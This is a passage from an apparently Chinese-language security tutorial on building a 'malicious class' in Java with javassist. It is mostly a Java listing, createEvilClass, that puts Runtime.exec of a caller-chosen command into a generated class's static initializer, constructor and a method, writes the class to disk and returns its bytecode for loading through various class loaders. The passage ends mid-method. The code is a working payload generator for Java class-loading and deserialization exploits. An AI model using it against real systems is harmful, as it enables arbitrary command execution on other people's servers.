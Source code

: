  

### 0x2、用javassist字节码操作动态创建恶意类

如下代码主要目的有2：

1. 使用javassist动态创建恶意类，可以动态指定命令和类名称，更为灵活。
2. 尝试利用不同的类加载器，从不同来源获取类的byte[]流。 虽然来源不同，但触发机制和evilClassTest中还是一致的。

```java
package evilClass;
import java.io.File;
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtField;
import javassist.CtMethod;
import javassist.CtNewMethod;
import javassist.bytecode.AccessFlag;

public class createEvilClass {
	
	public static byte[] create(String className,String cmd) {
		
		ClassPool pool = ClassPool.getDefault();
		//会从classpath中查询该类
		CtClass evilclass = pool.makeClass(className);
		try {
			CtField f= new CtField(CtClass.intType,"id",evilclass);//获得一个类型为int，名称为id的字段
			f.setModifiers(AccessFlag.PUBLIC);//将字段设置为public
			evilclass.addField(f);//将字段设置到类上
			
			//添加静态代码块
			CtConstructor ci = evilclass.makeClassInitializer();
			ci.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");
			 
			//添加构造函数
			CtConstructor ctConstructor1 = new CtConstructor(new CtClass[]{}, evilclass);//指定参数构造器
	        ctConstructor1.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");//$1代表第一个参数，$2代表第二个参数，$0代表this
			evilclass.addConstructor(ctConstructor1);
			
			//添加方法
			CtMethod funM=CtNewMethod.make("public void fun(){try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}",evilclass);
			evilclass.addMethod(funM);
			evilclass.setName(className);
			
			evilclass.writeFile("D:\\");//将生成的.class文件保存到磁盘
			byte[] b=evilclass.toBytecode();
			
			return b;
		}catch(Exception e) {
			e.printStackTrace();
		}
		return null;
```